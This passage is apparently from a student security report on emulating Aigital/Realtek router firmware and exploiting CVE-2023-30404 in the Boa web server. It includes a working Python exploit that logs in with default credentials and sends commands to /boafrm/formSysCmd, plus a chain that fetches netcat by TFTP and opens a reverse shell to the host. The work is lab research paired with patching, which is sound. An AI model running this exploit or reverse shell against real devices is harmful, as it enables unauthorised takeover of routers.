                intentionally left unchanged in this stabilized version. In this way, the resulting binary still behaved as the original vulnerable server for the RCE test, while being stable enough to keep the web
                interface reachable.

                The stabilization patches were applied to the original Boa binary at the following file offsets:

\begin{lstlisting}[language=bash]
0x27de4
0x30bb0
0x30be0
\end{lstlisting}

  Since the executable is loaded at virtual address \emph{0x00400000}, the corresponding addresses visible in Ghidra are:

\begin{lstlisting}[language=bash]
0x00427de4
0x00430bb0
0x00430be0
\end{lstlisting}

  At these addresses, the original instructions belonged to code paths that expected valid pointers returned by Realtek-specific configuration routines. In Firmadyne, those pointers could be null or otherwise invalid,
  causing Boa to crash during page rendering. The stabilization patches replaced the unsafe dereference paths with MIPS \emph{nop} instructions or, where required by the local control flow, with an early return
  sequence. This kept the binary layout unchanged and avoided modifying the security-relevant RCE handler at \emph{0x00440290}.

  These changes should therefore be considered emulation-stability patches, not security patches. The binary obtained after these changes was saved as \emph{boa.before-boaPatched}: it is the pre-security-patch Boa used
  to reproduce the RCE, but already stabilized for the emulated environment.

  Starting from this stabilized vulnerable binary, we later produced \emph{boa.patched-stable}, which keeps the same Firmadyne stability patches and additionally disables the RCE handler. The RCE-specific binary patch
  is discussed separately in Chapter~\ref{chap:fixing}.

              In parallel, we also stabilized the web resources. The approach was conservative:
              \begin{itemize}
                  \item keep the real Boa binary running inside the firmware;
                  \item keep the original login flow;
                  \item preserve the look and structure of the web interface;
                  \item avoid unstable dynamic handlers not required for the demonstration;
                  \item create stable versions of the pages needed during the tests.
              \end{itemize}

              The stabilized pages included \emph{home.htm}, \emph{status.htm}, \emph{wzd\_ap.htm}, \emph{wlbasic.htm}, \emph{tcpiplan.htm}, and \emph{admin.htm}. They were designed to reproduce the relevant
              structure of the original interface, including the main sections \emph{Home}, \emph{Wizard}, \emph{Wireless}, \emph{TCP/IP}, and \emph{Management}, together with the configuration panels
              \emph{Wireless}, \emph{LAN}, \emph{WAN}, and \emph{System}.

              This produced an emulated web interface that was stable enough for the rest of the project. So this was not a perfect full emulation of all proprietary Realtek configuration
              logic. However, it was sufficient for the security analysis because:
              \begin{itemize}
                  \item the firmware was running in Firmadyne;
                  \item the Boa web server was the real server used by the device;
                  \item the login and navigation were functional;
                  \item the vulnerable and patched behaviors could be tested in a controlled way.
              \end{itemize}

          \subsection{Firmware Analysis}

              After obtaining a stable emulation environment, we analyzed the firmware from the point of view of the components involved in the vulnerabilities. The analysis focused on the interaction between the web
              interface, the Boa server, and the underlying system commands.

              The first relevant observation was that the web interface is not a simple collection of static pages. It is composed of:
              \begin{itemize}
                  \item static HTML, CSS and JavaScript files;
                  \item Boa handlers exposed through \emph{/boafrm/};
                  \item Realtek-specific configuration functions used to read and write device settings;
                  \item system utilities invoked by the web server.
              \end{itemize}

              The login mechanism is implemented through a POST request to \emph{/boafrm/formLoginHtm}. The request contains the username, password and language selector. During the emulated tests we used the
              credentials \emph{admin/admin}. The same login flow was later reused by the exploit script to automate access to the web interface before sending commands.

              The second relevant component was the command execution interface. The web resources include a page named \emph{webcmd.htm}, which submits commands to \emph{/boafrm/formSysCmd}. This handler is the key
              component for the RCE vulnerability. At the analysis stage, we did not yet patch or exploit it; we identified it as the relevant attack surface for Chapter 3.

              The third relevant component was the management of wireless configuration values, especially the SSID. The SSID is a user-controlled value that is displayed back in the web interface. This behavior is
              security-sensitive because, if the value is inserted into the DOM\footnote{The Document Object Model (DOM) is the browser's internal representation of a web page, and it exposes its elements as objects that can be read and modified by client-side scripts} without escaping, it can lead to cross-site scripting.

              The unsafe rendering pattern is represented by code that inserts a string using \emph{innerHTML}:

\begin{lstlisting}[language=bash]
target.innerHTML = ssid;
\end{lstlisting}

              A safer rendering pattern is to treat the value as text:

\begin{lstlisting}[language=bash]
target.textContent = ssid;
\end{lstlisting}


              The practical exploitation and mitigation of this issue are discussed later in Chapters 3 and 4. In this chapter, the important result is that the firmware exposes user-controlled configuration values
              through the web interface, and these values must be handled carefully.

              During the firmware analysis we also prepared two Boa versions for later testing:
              \begin{itemize}
                  \item a vulnerable version, used to reproduce the original behavior;
                  \item a patched stable version, used to verify that the web application remains usable while the RCE is blocked.
              \end{itemize}

              The two relevant binaries are \emph{boa.before-boaPatched} and \emph{boa.patched-stable}, as anticipated in the previous section. The active binary inside the root filesystem is always named \emph{/bin/boa}.

              To switch between the two versions, we copied the desired binary over \emph{/bin/boa} and rebuilt the Firmadyne image. For example, to use the vulnerable version:

\begin{lstlisting}[language=bash]
cp tentativo_dimensione/squashfs-root/bin/boa.before-boaPatched \
    tentativo_dimensione/squashfs-root/bin/boa
\end{lstlisting}

              To use the patched version:

\begin{lstlisting}[language=bash]
cp tentativo_dimensione/squashfs-root/bin/boa.patched-stable \
    tentativo_dimensione/squashfs-root/bin/boa
\end{lstlisting}

              This approach allowed us to compare the behavior of the same emulated firmware under two different Boa binaries.

              In summary, the firmware analysis identified the components that are essential for the rest of the report:
              \begin{itemize}
                  \item Boa as the central web server;
                  \item \emph{/boafrm/formLoginHtm} as the login endpoint;
                  \item \emph{/boafrm/formSysCmd} as the command execution endpoint;
                  \item the SSID rendering logic as the relevant XSS sink;
                  \item the dependency on Realtek-specific MIB/NVRAM functions as the main challenge for emulation.
              \end{itemize}          
\chapter{Exploiting}
\label{chap:exploiting}
    \section{Login By-pass}
        The router has a serious security vulnerability: For more than five minutes (5m:50s) after a user logs into the web app, there is no authentication mechanism in place. Anyone can therefore access the web app—all they need is another user’s login or the user’s credentials (in our case, the default credentials “admin:admin”).

    \section{RCE}
        After obtaining a stable emulated environment, as described in Chapter~\ref{chap:analysis}, we moved to the exploitation phase of CVE-2023-30404. The target of this vulnerability is the Boa web server handler exposed through the endpoint \emph{/boafrm/formSysCmd}.
        \\
        The firmware web interface includes a diagnostic command page, \emph{webcmd.htm}, which submits user-supplied commands to the Boa handler. From the analysis phase, we knew that the relevant parameter was \emph{sysCmd}. Therefore, the attack consists in sending an authenticated POST request to the following endpoint:

\begin{lstlisting}[language=bash]
http://192.168.10.253/boafrm/formSysCmd
\end{lstlisting}

        The request body contains the command to execute:

\begin{lstlisting}[language=bash]
sysCmd=<command>
\end{lstlisting}

            In our emulated setup, the firmware was reachable at \emph{192.168.10.253}, while the host machine used for testing was configured as \emph{192.168.10.100}. Before launching the exploit, we verified that the emulated firmware was reachable and that Boa was running:

\begin{lstlisting}[language=bash]
curl -I http://192.168.10.253/
\end{lstlisting}

        The response (Figure~\ref{fig:test_boa}) confirmed that the web server was the Boa instance extracted from the firmware:

\begin{lstlisting}[language=bash]
Server: Boa/0.94.14rc21
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=0.88\textwidth]{../imgs/3.1-test_boa.png}
      \caption{Testing boa response}
      \label{fig:test_boa}
  \end{figure}

            We automated the exploit with this python script \cite{rce}. 
            \\
            The script accepts several options, which are explained in the help string and handled using the getopt library, as shown in the following code:
            
\begin{lstlisting}[language=python]
help_string = """
Utilizzo: python exploit.py [OPTIONS] [COMMAND]
OPZIONI:
    -h, --help              Mostra questo messaggio di aiuto
    -i, --interactive       Consente l'invio di molteplici comandi
    -c, --command <CMD>     Specifica un singolo comando da inviare
    -v, --verbose           Mostra la response delle richieste HTTP

ESEMPI: 
    python exploit.py -i -c 'ping -c 1 192.168.10.100' -v
    python exploit.py --interactive --command 'ping -c 1 192.168.10.100' --verbose

FUNZIONAMENTO:
    L'exploit sfrutta la CVE-2023-30404 per ottenere una RCE su un access
    point Aigital Wireless N, inviando una richiesta POST a /boafrm/formSysCmd.
"""

def handle_arguments():
    cmd = ""
    verbose = interactive = command_mode = False
    options = "hvic:"
    long_options = ["help", "verbose", "interactive", "command"]
    if len(args) == 0:
        print(help_string)
        sys.exit()

    arguments, values = getopt.getopt(args, options, long_options)
    for current_arg, current_val in arguments:
        if current_arg in ("-h", "--help"):
            print(help_string)
            sys.exit()
        elif current_arg in ("-v", "--verbose"):
            verbose = True
        elif current_arg in ("-i", "--interactive"):
            interactive = True
        elif current_arg in ("-c", "--command"):
            cmd = current_val
            command_mode = True

    return cmd, verbose, interactive

def main():
    try:
        cmd, verbose, interactive = handle_arguments()
        login(verbose)
        if not cmd == "":
            send_request(cmd, verbose) 
        if interactive:
            interactive_commands(cmd, verbose)
    except getopt.error as e:
        print(Fore.RED + str(e))
        return 2
    except KeyboardInterrupt:
        print(Fore.YELLOW + "\nUser Interrupt")
    except Exception as e:
        print(Fore.RED + str(e))
        return 1
    return 0


if __name__ == "__main__":
    sys.exit(main())
\end{lstlisting}
            
            Next, we used the requests library to send some HTTP requests to the router.
            \\
            First, the script attempts to log in to the router's web page; in our case, it was enough to include the default credentials in the request, but if they had been changed, they would have had to be changed in the request as well.
            
\begin{lstlisting}[language=python]
def login(verbose):
    url_login = "http://192.168.10.253/boafrm/formLoginHtm"
    headers_login = {
        "Host": "192.168.10.253",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Referer": "http://192.168.10.253/login.htm",
        "Content-Type": "application/x-www-form-urlencoded",
        "X-Requested-With": "XMLHttpRequest",
        "Content-Length": "62",
        "Origin": "http://192.168.10.253",
        "DNT": "1",
        "Connection": "keep-alive",
        "Sec-GPC": "1",
        "Priority": "u=0"
    }
    data_login = {
        "submit-value":"Login",
        "username":"admin",
        "password":"admin",
        "lang_select":"0"
    }

    resp = session.post(url_login, headers=headers_login, data=data_login, timeout=10)
    if verbose:
        print(resp.status_code)
        print(resp.text)
    return resp
\end{lstlisting}

            Next, depending on the startup mode (-c for a single command or -i to send a series of commands from a shell-like command line; however, since the RCE is “armored,” no response is received).

\begin{lstlisting}[language=python]
url = "http://192.168.10.253/boafrm/formSysCmd"
headers = {
    "Host": "192.168.10.253",
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/html+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.10.253",
    "Referer": "http://192.168.10.253/setok.htm",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1",
}

def send_request(cmd, verbose):
    data = {"sysCmd": cmd}

    resp = session.post(url, headers=headers, data=data, timeout=10)
    if verbose:
        print(resp.status_code)
        print(resp.text)
    return resp

def interactive_commands(cmd, verbose):
    while True:
        if cmd == "":
            cmd = input('$ ')
        else:
            print(f"$ {cmd}")
        if cmd == "exit":
            print("Exiting...")
            sys.exit()
        send_request(cmd, verbose)
        cmd = ""
\end{lstlisting}

            We previously captured and saved the HTTP requests we send after submitting some test forms from the browser.
            
        \subsection{Executing Commands}

            The first step was to verify whether arbitrary commands could actually be executed. For this purpose, we used a harmless network command: \emph{ping}. The host machine was listening on the Firmadyne TAP interface, while the emulated firmware was instructed to ping the host.
            \\
            On the host side, we monitored ICMP traffic with \emph{tcpdump}:

\begin{lstlisting}[language=bash]
sudo tcpdump -i qemu-tap0 icmp -n
\end{lstlisting}

              Then, from the exploit script, we sent the following command:

\begin{lstlisting}[language=bash]
ping -c 4 192.168.10.100
\end{lstlisting}

              The interactive exploit mode was launched with:

\begin{lstlisting}[language=bash]
cd ~/CLionProjects/progetto_IoT/CVE-2023-30404
python exploit.py -i
\end{lstlisting}

              Inside the exploit prompt, the command was submitted as follows:

\begin{lstlisting}[language=bash]
$ ping -c 4 192.168.10.100
\end{lstlisting}

            Receiving ICMP packets on the host proved that the command was not merely accepted by the web interface, but was actually executed by the emulated firmware. This confirmed the presence of remote command execution through the Boa handler.
\begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{../imgs/esecuzione_ping.png}
        \caption{ICMP packets generated by a command executed through the Boa RCE on the router}
        \label{fig:test_ping}
\end{figure}
            The same result could also be observed directly from the Firmadyne console, where Boa logged network-related syscalls and accepted HTTP connections. During command execution, Firmadyne printed messages related to socket creation and packet transmission. This dynamic evidence was useful because it confirmed the path from HTTP request to system-level command execution.

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.2-rce_ping.png}
      \caption{ICMP packets generated by a command executed through the Boa RCE on firmadyne}
      \label{fig:test_ping}
  \end{figure}

            At this point, the vulnerability was confirmed: an authenticated HTTP request to \emph{/boafrm/formSysCmd} allowed execution of arbitrary commands on the device \cite{mandomat}.

        \subsection{Gaining Shell}

            After confirming command execution, the next objective was to obtain an interactive shell. The firmware already contained a minimal BusyBox environment, but the available tools were limited. Therefore, we needed to transfer a compatible \emph{netcat} binary to the emulated firmware.
            At the beginning, we tried to transfer a version of BusyBox containing netcat, unsuccessfully. For this reason, we
            decided to build a smaller standalone netcat binary compatible with the target architecture.

            The firmware runs on a MIPS big-endian system, so the binary had to be compiled for the same architecture. We used the netcat 0.7.1 source code and cross-compiled it with \emph{mips-linux-gnu-gcc}. The binary was
            built statically and optimized for size:

\begin{lstlisting}[language=bash]
cd tentativo_dimensione/netcat-0.7.1
./configure --host=mips-linux-gnu CC=mips-linux-gnu-gcc CFLAGS="-static -Os"
make
strip src/netcat
cp src/netcat nc
\end{lstlisting}

            The resulting binary was a stripped, statically linked MIPS big-endian executable. This was important because the emulated firmware could execute it without requiring additional shared libraries. 

            The transfer was performed using TFTP (Figure~\ref{fig:nc_tftp}). On the host, the binary was exposed through the TFTP server. Inside the emulated firmware, we downloaded it into \emph{/tmp}:

\begin{lstlisting}[language=bash]
cd /tmp
tftp -g -l /tmp/nc -r nc 192.168.10.100
chmod +x /tmp/nc
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.3-nc_tftp.png}
      \caption{Nc transfer by TFTP}
      \label{fig:nc_tftp}
  \end{figure}

            We verified that the uploaded binary was executable by running:

\begin{lstlisting}[language=bash]
/tmp/nc -h
\end{lstlisting}

              The output (Figure~\ref{fig:nc_help}) confirmed that the binary supported the \emph{-e} option, which allows executing a program after the TCP connection is established. This feature was necessary to spawn \emph{/bin/sh} over
              the network.

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.4-nc_help.png}
      \caption{Nc help}
      \label{fig:nc_help}
  \end{figure}

            On the host machine, we started a listener on port \emph{9001}:

\begin{lstlisting}[language=bash]
nc -nvlp 9001
\end{lstlisting}

            Then, through the RCE exploit, we sent the reverse shell command:

\begin{lstlisting}[language=bash]
/tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

            In the exploit interactive prompt, the command was submitted as:

\begin{lstlisting}[language=bash]
$ /tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

            On the listener (Figure~\ref{fig:shell}), we received a connection from the emulated firmware:

\begin{lstlisting}[language=bash]
Connection received on 192.168.10.253
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.5-rev_shell.png}
      \caption{Reverse shell}
      \label{fig:rev_shell}
  \end{figure}

            At that point, the shell was interactive. We verified it by executing simple commands (Figure~\ref{fig:ps}) such as:

\begin{lstlisting}[language=bash]
pwd
ls
ps
\end{lstlisting}

            The working directory observed through the shell was consistent with the Boa execution context. In our tests, the shell opened in a directory related to the web server configuration, such as \emph{/etc/boa}. This behavior was expected because the command was executed by the Boa process.

\begin{figure}[H]
      \centering
